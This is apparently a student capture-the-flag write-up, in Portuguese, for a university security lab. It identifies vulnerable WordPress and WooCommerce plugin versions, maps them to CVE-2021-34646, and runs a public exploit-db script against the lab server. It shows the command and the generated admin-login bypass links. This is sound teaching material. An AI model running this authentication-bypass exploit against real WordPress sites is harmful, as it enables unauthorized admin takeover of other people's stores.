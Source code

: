 # CTF 1 - Semana 4

## Reconhecimento

Ao navegar pela web http://ctf-fsi.fe.up.pt:5001 , começamos por investigar todas as páginas à procura de pistas, que acabou por não ser produtivo, decidimos analisar as páginas usando o elemento Inspect fornecido pelo Google, descobrimos as seguintes dependências:

- Wordpress 5.8.1
- Woocommerce plugin 5.7.1
- Booster for WooCommerce plugin 5.4.3

![dependencies](/Images/dependencies.png)

Após obtermos, apercebemo-nos que podiamos tê-los descobertos muito mais facilmente, pois estavam escondidas numa das secções da loja. Decidimos analisar melhor o comentário que um utilizador fez relativamente a um produto na qual a data era 2021.


## Pesquisa por vulnerabilidades

Sabendo que a data foi em 2021 e a vulnerabilidade permite fazer login como administrador num servidor wordpress, decidimos então começar a pesquisar vulnerabilidades relacionadas com as dependências referidas, neste [site](https://cve.mitre.org/).

## Escolha da vulnerabilidade

Após uma pesquisa exaustiva, chegamos à conclusão que se trata da vulnerabilidade CVE-2021-34646 (para mais informação: [link](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-34646)) e usamos a flag `flag[CVE-2021-34646]`.

## Encontrar um exploit

Agora que sabemos qual a vulnerabilidade que a web tem, decidimos ir à database (mais especificamente o https://www.exploit-db.com), e encontramos o seguinte exploit que usa um progama em python (https://www.exploit-db.com/exploits/50299).


## Explorar a vulnerabilidade

Abrimos então a Virtual Machine para executar Ubuntu, e executamos o ficheiro python usando a seguinte linha de comando.

````bash
$ python3 exploit.py http://ctf-fsi.fe.up.pt:5001 1
````

Isto gerou-nos 3 links, na qual apenas um deles funcionava:

````
Timestamp: Tue, 03 Oct 2023 14:31:25 GMT
Timestamp (unix): 1696343485

We need to generate multiple timestamps in order to avoid delay related timing errors
One of the following links will log you in...

#0 link for hash 8a273dc5c1c799c480085d1c1a0a48b4:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiOGEyNzNkYzVjMWM3OTljNDgwMDg1ZDFjMWEwYTQ4YjQifQ

#1 link for hash 2c6aa3891b0fb5fd6bf2041938ba5fe7:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiMmM2YWEzODkxYjBmYjVmZDZiZjIwNDE5MzhiYTVmZTcifQ

#2 link for hash 8ac7e6cbbf9b85161543dcf07c6e5b3c:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiOGFjN2U2Y2JiZjliODUxNjE1NDNkY2YwN2M2ZTViM2MifQ
````

Após abrimos o link correto tivemos acesso direto à página (http://ctf-fsi.fe.up.pt:5001/wp-admin/edit.php) sem precisarmos de fazer log-in, o que nos permitiu ter acesso à última flag `flag{please don't bother me}`.
